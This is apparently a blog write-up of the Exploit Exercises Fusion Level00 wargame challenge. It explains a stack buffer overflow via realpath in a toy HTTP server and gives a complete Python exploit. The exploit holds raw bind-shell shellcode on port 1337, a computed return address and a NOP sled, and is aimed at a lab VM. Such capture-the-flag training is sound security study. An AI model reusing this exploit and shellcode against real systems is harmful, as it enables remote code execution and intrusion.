 ```yaml
---
layout:     post
title:      Exploit Exercises - Fusion Level00
date:       2015-01-20 12:00:00
summary:    Poping a shell on the first Fusion challenge
categories: wargames fusion exploit-exercises
---
```


This challenge is pretty much a straight forward stack overflow where you are using the fact that when we call real_path:

[c]
int fix_path(char *path)
{
  char resolved[128];
  
  if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
  strcpy(path, resolved);
}
[/c]

our <code>path</code> variable's size is controlled by our initial read in <code>parse_http_request</code>:

[c]
  char buffer[1024];
  char* path;
  ...
  if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
  ...
  path = &buffer[4];
  ...
  fix_path(path);
[/c]

as our <code>path</code> variable is simply a pointer to a location in <code>buffer</code> 4 bytes in. So looking up what <code>realpath</code> <a title="Realpath" href="http://man7.org/linux/man-pages/man3/realpath.3.html" target="_blank">does</a> we find that it will copy the given <code>path</code> string to our <code>resolved</code> buffer expanding any relative paths that we might have. <code>realpath</code> will also make sure that the file actually exists and if it doesn't it will return <code>NULL</code>. So for our sake we really don't care if we can access the <code>strcpy</code> because <code>realpath</code> will do the same thing for us!

So now that we know what we are targeting, we need to make sure we pass the earlier checks to actually get to this point.

[c]
  ...
  if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request"); // Is "GET " the first part of the given string?

  path = &buffer[4];
  q = strchr(path, ' '); // After the "GET " string, is there another space?
  if(! q) errx(0, "No protocol version specified"); // If not, throw an error
  *q++ = 0; // Replace the space with a NULL character so we separate the path and protocol
  if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol"); // Is the protocol == "HTTP/1.1"?
  ...
[/c]

So from this we can deduce our payload is going to be something in the form of <code>GET &lt;fill buffer&gt;&lt;return address&gt; HTTP/1.1&lt;nop sled&gt;&lt;shellcode&gt;</code>. You can stick your shellcode in the nop sled but it is up to you :D Since we want $eip to point to our shellcode located some number of bytes away from the start of our buffer, we can start with using the buffer address that get leaked to us by the program and add some offset to get to our nop sled (the nop sled is optional here since we can really just calculate the exact offset but I was too lazy lol). Wiht some playing around in the binary you can find number of bogus characters to fill the buffer to be 139, after the 139th character, you will begin to overwrite the return address :D. Thus we would want our return address would be: buffer address + 139 + a few more to make sure we go past the return address that we stuck in there and onto the nop sled. Putting it all together we get:

[python]
import sys
from os.path import expanduser
home = expanduser("~")
sys.path.append(home + "/Template")
from isis import *


#Allow time to attach debugger
debug = True
#change for local vs remote exploit
host = "172.16.76.131"
port = 20000

#set up connection and set timeout 
def connect():
	s = get_socket((host,port))
	s.settimeout(0x1000000)
	return s

s = connect()
if debug:
	raw_input("?")

# Shell Bind TCP Shellcode Port 1337 - 89 bytes - http://shell-storm.org/shellcode/files/shellcode-882.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"


fill_buff = "A"*139 + lei(0xbffff8f8 + 170)

payload = "GET "
payload += fill_buff
payload += " HTTP/1.1"
payload += "\x90" * 32
payload += shellcode

s.send(payload)
	
# keeps connection open
telnet_shell(s)
[/python]

We then have a shell listening on port 1337 that we can nc into :D

(I used a collection of helper functions from Blankwall's Template library. I encourage you to check it out: ([Github](https://github.com/blankwall/Template))